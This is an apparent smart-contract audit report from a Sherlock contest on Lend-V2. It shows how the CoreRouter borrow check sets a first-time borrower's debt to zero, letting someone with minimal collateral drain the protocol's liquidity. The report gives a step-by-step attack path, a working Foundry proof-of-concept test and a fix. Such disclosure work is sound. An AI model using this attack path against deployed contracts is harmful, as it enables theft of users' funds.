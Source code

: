 Creamy Sage Caterpillar

High

# Incorrect Borrow Validation Enables Protocol Drain with Minimal Collateral

### Summary

CoreRouter borrow incorreclty adjust user borrows amount and leads too valid borrow requests to fail.  It also incorrectly sets total borrow to 0 if user borrowing new asset causing any borrow request to pass even with low colleteral.



### Root Cause

The CoreRouter borrow function applies index scaling to the result of getHypotheticalAccountLiquidityCollateral, which already includes global borrow debt in USD. This results in an incorrect and inflated borrowAmount.
Additionally, if the user has no prior borrow, borrowAmount = 0, letting them pass the collateral check and borrow up to the protocol’s total available liquidity.

```solidity
    function borrow(uint256 _amount, address _token) external {
        require(_amount != 0, "Zero borrow amount");

        address _lToken = lendStorage.underlyingTolToken(_token);

        LTokenInterface(_lToken).accrueInterest();

        (uint256 borrowed, uint256 collateral) =
            lendStorage.getHypotheticalAccountLiquidityCollateral(msg.sender, LToken(payable(_lToken)), 0, _amount);

        LendStorage.BorrowMarketState memory currentBorrow = lendStorage.getBorrowBalance(msg.sender, _lToken);

        uint256 borrowAmount = currentBorrow.borrowIndex != 0
            ? ((borrowed * LTokenInterface(_lToken).borrowIndex()) / currentBorrow.borrowIndex)
            : 0;

        require(collateral >= borrowAmount, "Insufficient collateral");

```
https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/713372a1ccd8090ead836ca6b1acf92e97de4679/Lend-V2/src/LayerZero/CoreRouter.sol#L157



### Internal Pre-conditions

User needs to have no existing borrow on the given _lToken, so that currentBorrow.borrowIndex == 0
User needs to deposit minimal collateral to a supported market
Protocol has significant liquidity available to borrow






### External Pre-conditions

-

### Attack Path

1. Attacker deposits $1 into any collateral-supported market
2. Calls borrow() for the maximum borrowable amount from any _lToken
3. Since it's their first borrow, currentBorrow.borrowIndex == 0, and borrowAmount becomes 0
4. The collateral check passes ($1 >= $0)
5. Attacker withdraws full borrowable amount (e.g., $1000) from the protocol
6. Can repeat until all protocol liquidity is drained

### Impact

The protocol suffers a complete drain of borrowable liquidity.
Other users are unable to borrow or redeem due to drained pools.
If user borrows same asset inflated borrowAmount can cause valid borrow requests to fail




### PoC

Add test to Lend-V2/test/TestBorrowing.t.sol 

```solidity
    function test_borrow_more_than_col() public {
        // Bound amount between 1e18 and 1e30 to ensure reasonable test values
        uint256 amount = 1e18;
        vm.startPrank(deployer);

        // First supply tokens as collateral
        (address token, address lToken) = _supply(amount);

        // Calculate maximum allowed borrow (70% of collateral to leave some safety margin)
        uint256 maxBorrow = (amount * 70) / 100;

        address alice = makeAddr("alice");
        vm.startPrank(alice);
        ERC20Mock(token).mint(alice, 1);
        IERC20(token).approve(address(coreRouter), 1);
        coreRouter.supply(1, token);
        vm.stopPrank();

        // Get initial balances
        uint256 initialTokenBalance = IERC20(token).balanceOf(deployer);

        vm.startPrank(alice);
        coreRouter.borrow(maxBorrow, token);
        // Check account liquidity after borrow
        (uint256 sumBorrowPlusEffects, uint256 sumCollateral) = lendStorage
            .getHypotheticalAccountLiquidityCollateral(
                alice,
                LToken(lToken),
                0,
                0
            );
        // @audit user borrowed more than collateral
        assertEq(sumBorrowPlusEffects, 700000000000000000);
        assertEq(sumCollateral, 0);
    }
```

### Mitigation

Replace the logic with a simple comparison of collateralValueUSD >= borrowedValueUSD + newBorrowUSD, relying only on already normalized values.